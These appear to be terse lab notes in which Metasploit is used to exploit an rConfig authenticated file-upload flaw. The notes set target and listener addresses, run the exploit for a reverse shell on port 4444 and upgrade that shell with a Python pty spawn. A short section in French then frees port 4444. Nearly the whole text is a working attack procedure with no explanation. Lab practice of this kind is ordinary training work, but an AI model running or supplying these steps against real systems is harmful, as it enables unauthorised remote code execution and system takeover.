 sudo msfconsole
search rconfig
exploit/linux/http/rconfig_vendors_auth_file_upload_rce
set RHOSTS 10.129.201.101
set LHOST 10.10.14.79
exploit
shell
python -c 'import pty; pty.spawn("/bin/sh")'


Fermer le port 4444 :
lsof -i :4444
kill $(lsof -t -i:4444)
   
